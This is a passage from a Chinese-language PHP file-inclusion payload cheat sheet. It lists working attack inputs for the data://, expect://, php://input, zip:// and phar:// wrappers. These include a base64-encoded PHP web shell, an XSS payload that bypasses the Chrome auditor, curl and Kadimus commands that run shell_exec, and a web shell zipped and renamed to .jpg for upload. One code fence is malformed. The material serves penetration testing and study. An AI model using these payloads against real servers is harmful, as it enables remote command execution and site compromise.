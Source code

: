 

### 包装器 data://

```powershell
http://example.net/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=
注意：有效载荷是 "<?php system($_GET['cmd']);echo 'Shell done !'; ?>"
```

趣事：你可以通过以下方式触发XSS并绕过Chrome审计器：`http://example.com/index.php?page=data:application/x-httpd-php;base64,PHN2ZyBvbmxvYWQ9YWxlcnQoMSk+`

### 包装器 expect://

```powershell
http://example.com/index.php?page=expect://id
http://example.com/index.php?page=expect://ls
```

### 包装器 input://

在POST参数中指定您的有效载荷，这可以通过简单的`curl`命令完成。

```powershell
curl -X POST --data "<?php echo shell_exec('id'); ?>" "https://example.com/index.php?page=php://input%00" -k -v
```

另外，Kadimus有一个模块可以自动化这种攻击。

```powershell
./kadimus -u "https://example.com/index.php?page=php://input%00"  -C '<?php echo shell_exec("id"); ?>' -T input
```

### 包装器 zip://

1. 创建恶意有效载荷：`echo "<pre><?php system($_GET['cmd']); ?></pre>" > payload.php;`
2. 压缩文件

~~~python
压缩文件
```python
zip payload.zip payload.php;
mv payload.zip shell.jpg;
rm payload.php
~~~

1. 上传存档并通过包装器访问文件：http://example.com/index.php?page=zip://shell.jpg%23payload.php

### 包装器 phar://

创建一个包含序列化对象在其元数据中的phar文件。

```php
// 创建新的Phar
$phar = new Phar('test.phar');
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub('<?php __HALT_COMPILER(); ? >');

// 将任何类的对象添加为元数据
class AnyClass {}
$object = new AnyClass;
$object->data = 'rips';
$phar->setMetadata($object);
$phar->stopBuffering();
```
